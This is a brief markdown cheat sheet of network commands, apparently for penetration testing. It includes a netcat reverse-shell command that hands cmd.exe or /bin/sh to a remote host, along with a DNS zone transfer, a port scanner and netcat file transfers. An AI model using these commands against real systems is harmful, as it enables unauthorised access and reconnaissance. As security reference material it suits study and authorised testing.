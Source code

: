 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
	<td>host -l <i>domain nameServer</td>
	<td>dns zone transfer</td>
  </tr>
  <tr>
	<td>nc <i>ip port</i> -e <i>shell</td>
	<td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
	<td>nc -l -p <i>port</td>
	<td>start listener</td>
  </tr>
  <tr>
	<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
	<td>tcp port scanner</td> 
  </tr>
  <tr>
	<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
	<td>file transfers</td>
  </tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc3MTg5MTQxMywtMTk2NjU4ODUxNV19
-->